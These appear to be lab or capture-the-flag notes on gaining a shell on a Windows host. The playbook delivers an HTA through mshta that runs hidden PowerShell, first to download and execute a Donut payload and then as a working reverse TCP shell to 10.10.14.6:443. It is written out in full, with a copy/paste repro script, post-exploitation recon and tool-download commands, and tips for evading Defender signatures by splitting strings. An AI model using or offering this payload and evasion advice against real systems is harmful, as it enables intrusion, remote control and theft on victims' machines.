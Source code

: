 # HTA → PowerShell Reverse Shell (Lab Notes)

**Goal:** Obtain a shell on a Windows target with legacy Windows Defender (circa 2020) by delivering and executing a payload that bypasses static signatures.
Can be used for initial shell.
---

## Environment & Constraints
- Target: Windows (likely x64), legacy Defender signatures.
- Attacker: Kali-like Linux VM (tun0: `10.10.14.6`).
- Egress uncertainty (443/80/8080/53).
- Disk space constraints on attacker box → built/served from `/dev/shm`.
- Initial payload: `smb.exe` (x86) → Donut → `shell.ps1`.
- Delivery: `.hta` executed via `mshta`.

---

## Attempt A (Donut + HTA) — **Delivered, no session**
**What we did**
1. Donut on x86 binary (kept 32-bit):
   ```bash
   donut -i smb.exe -f 6 -a 1 -e 3 -b 3 -o shell.ps1
   ```
2. Served files:
   ```bash
   cd /dev/shm && python3 -m http.server 80
   ```
3. HTA wrapper (forced 32-bit PS to match x86 shellcode):
   ```html
   <html><head><script language="VBScript">
   Dim cmd
   cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.6/shell.ps1')"""
   CreateObject("Wscript.Shell").Run cmd,0
   </script></head><body></body></html>
   ```
4. Triggered:
   ```powershell
   mshta http://10.10.14.6/policy_2025.hta
   ```

**What we observed**
- HTTP server logs showed:
  - `GET /policy_2025.hta` (HTA executed)
  - `GET /shell.ps1` (PS downloaded Donut script)
  - Instrumented canaries confirmed 32‑bit PS, bytes downloaded, and post‑`IEX` reached.
- **No callback** to Metasploit (likely staging/arch/payload mismatch or egress filter).

**Key gotchas identified**
- PowerShell `-enc` expects **UTF‑16LE** base64, not UTF‑8.
- x86 shellcode must run under **SysWOW64** PowerShell on x64 hosts.
- Staged Meterpreter often flagged/blocked; handler/payload must match exactly (arch + staged/stageless + protocol).

---

## Working Approach B (Raw PS TCP reverse shell) — **Success**
We pivoted away from Meterpreter/Donut and used a minimal PowerShell reverse TCP one‑liner embedded directly in an HTA.

### 1) Listener (attacker)
```bash
rlwrap nc -lvnp 443
```

### 2) HTA (served from `/dev/shm/rs.hta`)
```html
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
```

> Notes:
> - **SysWOW64** path forces 32‑bit PowerShell (consistent with our earlier x86 payloads).
> - The `iwr ... /ps_ran_rev` HTTP canary gave immediate proof PS started on target.
> - This approach avoids Donut/Meterpreter stagers and their signatures.

### 3) Serve & trigger
```bash
cd /dev/shm && python3 -m http.server 80
mshta http://10.10.14.6/rs.hta?t=1
```

**Result:** `rlwrap nc` received a connection. Commands (e.g., `whoami`) executed interactively.

---

## Verification Artifacts (HTTP server logs)
Typical success sequence:
```
GET /rs.hta?t=1        200
GET /ps_ran_rev        200 (canary; any 200/404 proves PS started)
```
(When using the Donut flow earlier, also saw `GET /shell.ps1` and canaries like `/canary?arch=32`, `/canary?afterIEX`.)

---

## Post‑Exploitation Quick Checks
Run immediately after shell lands:
```powershell
whoami /all
hostname
$env:COMPUTERNAME; $env:USERDOMAIN; $env:USERDNSDOMAIN
ipconfig /all
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
net localgroup administrators
query user
```
Download tools:
```powershell
$wc=New-Object Net.WebClient
$wc.DownloadFile('http://10.10.14.6/tool.exe','C:\Windows\Temp	ool.exe')
```

---

## Why Attempt A failed (most likely)
- **Staging/Signature**: Staged Meterpreter stagers are commonly detected even by 2020 Defender.
- **Handler mismatch**: Any mismatch (x86/x64, http/https, staged/stageless) results in silence.
- **Egress**: Handler port may have been filtered; raw TCP shell on 443 worked reliably.

---

## Disk Space Remediation (attacker)
To recover space quickly:
```bash
rm -rf ~/.msf4/{loot,logs,bootsnap_cache}/*
rm -rf ~/.nuget/packages/*
sudo apt clean && sudo apt autoremove --purge -y
sudo journalctl --vacuum-time=3d
find ~/Covenant -type d \( -name bin -o -name obj -o -name publish \) -prune -exec rm -rf {} +
```
Build artifacts in RAM to avoid future ENOSPC:
```bash
export TMPDIR=/dev/shm
cd /dev/shm
```

---

## Repro Playbook (copy/paste)
```bash
# 1) Listener
rlwrap nc -lvnp 443

# 2) Create HTA
cat > /dev/shm/rs.hta <<'HTA'
<html><head><script language="VBScript">
Dim cmd
cmd = "%windir%\SysWOW64\WindowsPowerShell1.0\powershell.exe -nop -w hidden -ep bypass -c ""$null=(iwr http://10.10.14.6/ps_ran_rev);$h='10.10.14.6';$p=443;$c=New-Object Net.Sockets.TCPClient($h,$p);$s=$c.GetStream();$b=New-Object Byte[] 65535;while(($i=$s.Read($b,0,$b.Length)) -ne 0){$d=[Text.Encoding]::ASCII.GetString($b,0,$i);try{$o=(iex $d 2>&1|Out-String)}catch{$o=$_.Exception.Message};$o=$o+'PS '+(pwd).Path+'> ';$sb=[Text.Encoding]::ASCII.GetBytes($o);$s.Write($sb,0,$sb.Length)}$c.Close()"""
CreateObject("Wscript.Shell").Run cmd,0
</script></head><body></body></html>
HTA

# 3) Serve
cd /dev/shm && python3 -m http.server 80

# 4) Trigger on target
# mshta http://10.10.14.6/rs.hta?t=1
```

---

## Optional Hardening/OPSEC
- Randomize variable/class names and split suspicious strings (e.g., 'Net.Sock'+'ets.TCP'+'Client').
- Use allowed egress port (443/80/8080/53), validated by `tcpdump`.
- After you’re in, consider pivoting to a more feature‑rich agent over the same egress port.

---

*These notes are for lab/education use only, matching the environment you controlled in this exercise.*
